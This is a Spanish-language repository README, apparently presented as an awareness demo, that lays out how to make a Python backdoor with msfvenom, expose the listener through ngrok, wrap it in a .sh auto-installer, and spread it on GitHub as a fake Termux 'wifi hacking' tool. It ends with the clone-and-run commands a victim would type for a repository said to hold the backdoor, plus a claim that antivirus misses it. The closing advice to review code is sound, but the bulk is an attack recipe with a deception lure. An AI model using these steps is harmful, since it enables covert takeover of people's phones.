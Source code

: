 # Backdoor Python con auto ejecutable para recibir shell en telefon

NO DEBEN DESCARGAR ESTE REPOSITORIO YA QUE ESTA HECHO CON FINES ETICOS Y PARA MOSTRAR COMO SE HARIA EL PROCESO, SI DESCARGAN Y EJECUTAN ESTE REPOSITORIO ALGUIEN PODRIA OBTENER UNA SHELL DE SU CELULAR 


Paso 1:

crear el payload en python con msfvenom

paso 2:

si van a hacerlo fuera de lan usar ngrok y dejar la consola en escucha

paso 3:

crear un auto instalador en .sh que dara permisos al archivo .py con el backdoor y seguidamente lo ejecutara de forma automatica, de este modo ya obtenemos la shell.

paso 4: 

subir el repositorio a github y pasarlo a las personas diciendo por ejemplo, mira esta herramienta para termux hackea redes wifi..

CONCLUSION Y MORALEJA:

Siempre que vayan a descargar proyectos de github deben revisar el codigo fuente para saber que estan descargando y que estan ejecutando ya que muchas veces herramientas que se suben aqui son backdoors y personas acceden a su telefono sin que ustedes se den cuenta

ademas, ni Google Protect ni aplicaciones antivirus detectan esto, ya que el virus corre adentro de un emulador LINUX en este caso podria ser TERMUX para android o otro emulador, sin embargo al obtener la shell ya tenemos accesso a todo su telefono sin ser detectados por los antivirus.

Por eso como consejo personal, siempre que descarguen algun script, antes de ejecutar deben revisar el codigo fuente y entenderlo para saber como funciona tal script y que funciones ejecutara.

NOTA: pueden checar el archivo .py para que se den cuenta como se veria un backdoor en python generado con MSFVENOM
NOTA 2: Tambien les dejo el archivo .sh que seria el encargado de ejecutar el virus y darle los permisos, pueden checarlo.


lo que su victima haria seria esto

abrir termux

ejecutar

git clone https://github.com/byteSalgado/testingrepost/

cd testingrepost
chmod +x install.sh
./install.sh

listo nosotros ya tenemos el acceso a su telefono y sin ser detectados.


